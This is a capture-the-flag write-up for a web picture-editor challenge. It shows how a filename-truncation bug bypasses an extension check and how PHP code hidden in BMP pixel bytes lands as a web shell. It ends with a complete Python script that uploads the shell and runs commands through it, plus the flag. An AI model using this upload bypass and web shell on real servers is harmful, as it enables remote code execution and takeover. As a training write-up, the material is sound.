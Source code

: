 # Pixeditor (Web)

In the task we get access to a web-based picture editor.
We can draw a small image by setting pixel colors and then save it on the server as JPG, PNG, BMP or GIF under given filename.

There is a check for the file extension when saving the file, however the name is truncated to 50 characters after the extension check.
So we can use name ending with `.png` to pass the check, but if the name is too long, this extension will be cut.
Using this trick we can save a `.php` file by using name in format `'x'*46+'.php.png`.

Now we would like to place some PHP code inside the file, but we can only draw some pixels.
Fortunately PHP interpreters are permissive, and they will execute anything which looks like valid PHP code.
So we can have some random bytes before and after PHP code in the file, and it will still work.

We need to paint a picture where bytes will create code we want.
The easiest option is to use BMP because pixels simply go into the file directly as BGR color values.
Web editor includes also alpha channel, so we actually have 32x32x4 bytes, and we want to skip every 4th byte, because it won't appear in the output file.
Also the bytes in BMP are inverted, because the web editor format is RGBA and BMP has BGR.

The solution is to split the payload `<?php $_GET['a']($_GET['b']); ?>` into 3-bytes long chunks, and place then in consecutive picture pixels inverted:

```python
import re
import requests
from crypto_commons.generic import chunk


def shell(url):
    while True:
        b = raw_input("> ")
        print(requests.get(url + "?a=system&b=" + b).text[3030:])


def pad(plain):
    missing = 3 - len(plain) % 3
    return plain + (" " * missing)


def create_shell(main_url):
    data = [1 for _ in range(32 * 32 * 4)]
    index = 0
    for c in chunk(pad("<?php $_GET['a']($_GET['b']); ?>"), 3):
        data[index + 2] = ord(c[0])  # R
        data[index + 1] = ord(c[1])  # G
        data[index] = ord(c[2])  # B
        index += 4
    url = main_url + "save.php"
    name = "A" * 46 + ".php"
    r = requests.post(url, data={"data": str(data), "name": name + ".JPG", "format": "BMP"})
    link = re.findall("<a href='(.*)'>Download", r.text)[0]
    return link


def main():
    main_url = "http://pixeditor.challs.malice.fr/"
    link = create_shell(main_url)
    print(main_url + link)
    shell(main_url + link)


main()
```

With such shell we can just find the flag in `/` and cat it to get `NDH{Msp4int.3x3>all>th3g1mp}`
